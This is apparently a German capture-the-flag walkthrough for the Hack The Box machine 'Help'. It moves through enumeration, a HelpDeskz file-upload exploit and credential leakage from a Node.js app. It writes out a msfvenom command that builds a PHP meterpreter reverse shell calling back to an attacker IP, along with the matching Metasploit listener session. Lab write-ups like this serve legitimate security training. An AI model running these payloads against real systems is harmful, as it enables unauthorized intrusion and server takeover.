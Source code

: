 # 	Help

 Ein kurzes Tutorial für die Maschine "Help" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/170

 Die Maschine lehrt den Umgang mit Reverse Shells, Codeanalyse, Exploitrecherche und das manipulieren vorhandener Exploits.
 
## Anleitung


 1. NMAP Scan 

    ![NMAP](Help/1-NMAP_Scan.png)


 2. Suche nach Verzeichnissen mit Dirb(buster). 
    Dirb durchsucht mit Hilfe einer Wordlist die Verzeichnisse und Dateien einer Webseite, indem es Einträge aus der Liste an die Domain anhängt. 
    Wenn der HTTP Code 200 zurückgesendet wird, hat Dirb ein gültiges Verzeichnis gefunden.

    ![DIRB](2-Dirb_configuration.png)

 3. Gefundenes Verzeichnis (http://10.10.10.80/support)

    ![result](Help/3-Dirb_result.png)

 4. Zum Verzeichnis navigieren

    ![HelpDeskz](Help/4-HelpDeskz.png)

 5. Suche nach vorhandenem Exploit für HelpDeskz verläuft erfolgreich. 

    ![recherche](Help/5-HelpDeskz_Exploit_recherche_DownloadScript.png)

    Leider muss der Exploit an einigen stellen angepasst werden. Es wird vorausgesetzt, dass für die Berechnung des MD5 Hashes die Zeit des Servers mit der des Angreifers synchronisiert werden.
    Entweder manipuliert man also den Exploit so, dass dieser Hashes für alle 12 Zeitzonen gleichzeitig erstellt und abgleicht, oder man versucht an die Credentials für das Helpdeskz zu gelangen.

 6. Die erhaltene Json Datei auf Port 3000 wird analysiert, um einen Hinweis für die Credentials zu erhalten.

    ![6](Help/6-NodeJs_App_Analyse.png)

 7. Nun wird nach recherchiert, wie eine gültige Query für eine node.js Anwendung über einen HTTP-Request aussehen könnte.

    ![7](Help/7-HowToCreateHTTPQuery.png)

 8. Das Muster der Query wird kopiert und auf unser Beispiel testweise angepasst.

    ![8](Help/8-firstTry.png)
    ![9](Help/9-Getpassword(md5Hash_muss_enthasht_werden->godhelpmeplz).png )
    ![10](Help/10-userName.png )

    Nach einigen Versuchen erhält man den Usernamen und das gehashte Passwort. Den Hash kann man mit einem Online Tool oder "JohnTheRipper" (Kali Tool) über Rainbowtables enthashen.
 
 9. Mit den erhaltenen Credentials kann sich der Angreifer im HelpDeskz Admin-Bereich anmelden und die Zeitzone auf die Lokale Maschine anpassen. 

    ![DIRB](Help/14-ZeitZone_fuer_script_anpassen(anmeldenMitCredentials).png)

    Nun wird eine Reverse Shell erstellt, um eine Payload auf den Server zu laden.

    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.178.3 LPORT=4444 -e php/base64 -f
    raw > /root/Desktop/msfvenom.php
    ```
    
    Mit Metasploit wird nun nach der Verbindung gehorcht.

    ```bash
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.178.3
    LHOST => 192.168.178.3
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 192.168.178.3:4444 
    [*] Starting the payload handler...
    ```

    WICHTIG: "<?php" vor und "?>" hinter den Text in der Datei anhängen!

 10. Beim Upload der infizierten .php Datei wird ein Fehler angezeigt. Dafür wird mit Hilfe des GitHub    Source Codes analysiert, wie der Hash berechnet und wo die Datei hochgeladen wird.

     ![11](Help/11-HelpDeskz_GitHub_SourceCode.png)

     ![12](Help/12-CodeAnalyse(FileUploadVuln).png)

    Beim Analysieren des Codes fällt auf, dass die Datei erst hochgeladen und anschließend die Dateiendung analysiert wird. Die Fehlernachricht kann also ignoriert werden. Außerdem muss der Exploit an einer stelle angepasst werden.
    Die Payload kann nur über http://10.10.10.117/support/uploads/tickets/HASH/.php lokalisiert werden.

     ![13](Help/13-ScriptAnpassen.png)
     ![14](Help/15-uploadPayload_FehlermeldungNichtBeachten.png)

    Script starten und nebenbei den listener aus Punkt 9 laufen lassen.
     ![15](Help/16-runExploit.png)

 11. Man erhält eine Meterpreter Shell mit eingeschränkten Rechten auf das Dateisystem des Servers. Von dort aus kann über den Befehl "shell" eine Shell erstellt werden. 
     Bei Bedarf kann folgender Exploit auf das System geladen und ausgeführt werden, um an root-Rechte zu gelangen.

     ![16](Help/17-privilegeEscalationExploit.png)
    

    

